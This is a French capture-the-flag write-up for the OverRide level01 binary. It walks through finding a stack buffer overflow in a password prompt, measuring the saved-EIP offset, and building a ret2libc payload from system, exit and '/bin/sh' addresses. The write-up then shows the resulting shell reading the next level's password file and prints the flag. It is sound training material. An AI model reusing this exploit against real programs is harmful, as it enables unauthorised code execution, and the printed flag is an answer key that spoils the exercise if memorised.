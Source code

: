 # Level 01

### Protections

![](Ressources/protections.png)

### Analyse

Le programme recoit 2 entrees en `stdin` grace a `fgets()`.

* La premiere est un **username** stocke dans un buffer de 256 octets dont l'adresse est plutot eloignee par rapport au reste du programme, dans la section `.bss`.
* La deuxieme entree est un **password** stocke dans un buffer de 64 octets. Cependant, le `fgets()` lit 100 octets, Buffer Overflow possible a cet endroit.

Le programme utilise ses fonctions `verify_user_name` et `verify_user_pass`, completement inutiles, on remarque que les bons identifiants sont `dat_wil` et `admin` mais cela n'a aucun impact sur le comportement du programme si ce n'est quitter le programme en cas de mauvais username.

On va donc entrer le bon username `dat_wil` puis se concentrer sur le potentiel Overflow dans le second `fgets()`.

### Exploitation

On commence par utiliser un Overflow Pattern Generator ([https://wiremask.eu/tools/buffer-overflow-pattern-generator/](https://)) pour detecter voir si un overflow sur le Saved-eip est possible et detecter son Offset.

```level01@OverRide:~$ gdb ./level01
level01@OverRide:~$ gdb ./level01
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

Un pattern cyclique de 100 octets nous revele un segfault a `0x37634136` soit "7cA6".

Le Little-endian s'applique ici -> 6Ac7. La position de cette suite dans notre pattern est 80. Donc une modification du saved-eip est possible a partir de 80 octets.

##### Elaboration de la Strategie

On sait donc que l'on peut modifier le comportement du programme et modifier la prochaine instruction qui suit le `main()` definie par le saved-eip.

On va donc s'interesser aux attaques de type **Ret2Libc**.

Plutot que d'injecter un Shellcode et une adresse qui pointe vers celui-ci, nous allons appeler des fonctions de bibliotheques partagees deja presentes en memoires.

On va donc appeler `system`, `"/bin/sh"` et `exit`. Pour cela rien complique, il nous suffit de localiser ces elements dans la memoire puis de les injecter dans l'ordre a notre offset.

##### Execution

Pour trouver `system()` et `exit()` on va simplement utiliser **gdb** comme ceci.

```exec
(gdb) b *main+5
Breakpoint 2 at 0x80484d5
(gdb) r
Breakpoint 1, 0x080484d5 in main ()
(gdb) disas system
Dump of assembler code for function system:
0xf7e6aed0 <+0>:     sub    $0x1c,%esp
......................................
End of assembler dump.
(gdb) disas exit
Dump of assembler code for function exit:
0xf7e5eb70 <+0>:     push   %ebx
......................................
End of assembler dump.
```

Il nous suffit de prendre les l'adresses de la premiere instruction de chaque fonction.

`system()`: 0xf7e6aed0

`exit()`: 0xf7e5eb70

Pour trouver la string "/bin/sh", on localise d'abord l'adresse de depart de la `libc`:

```map
(gdb) info proc mappings
process 1770
Mapped address spaces:
Start Addr   End Addr       Size     Offset objfile
.......... ..........   ........   ........ ...................
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
.......... ..........   ........   ........ ...................
```

La `libc` debute a l'adresse `0xf7e2c000`. On va donc pouvoir utiliser `find` et trouver "/bin/sh".

```m
(gdb) find 0xf7e2c000, +10000000, "/bin/sh"
0xf7f897ec
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

Une fois ces 3 elements reunis, on n'a plus qu'a les injecter dans le bon ordre, le saved-eip sera ecrase et notre injection sera executee.

`(python -c 'print "dat_wil"'; python -c 'print "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01`

```m
********* ADMIN LOGIN PROMPT *********
Enter Username: 
verifying username....
Enter Password:
nope, incorrect password...
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Notre flag est donc: **PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv**
